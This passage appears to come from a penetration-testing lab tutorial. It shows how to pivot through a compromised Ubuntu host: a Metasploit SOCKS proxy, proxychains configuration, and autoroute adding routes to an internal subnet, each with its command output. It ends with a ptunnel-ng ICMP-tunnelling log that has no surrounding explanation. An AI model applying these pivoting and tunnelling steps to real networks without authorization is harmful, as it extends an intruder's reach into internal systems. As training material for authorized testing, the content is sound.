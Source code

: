 ```shell
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

```

After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host. We can add the below line at the end of our `proxychains.conf` file located at `/etc/proxychains.conf` if it isn't already there.

#### Adding a Line to proxychains.conf if Needed

```shell
socks4 	127.0.0.1 9050

```

Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.

Finally, we need to tell our socks\_proxy module to route all the traffic via our Meterpreter session. We can use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

#### Creating Routes with AutoRoute

```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed

```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```shell
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%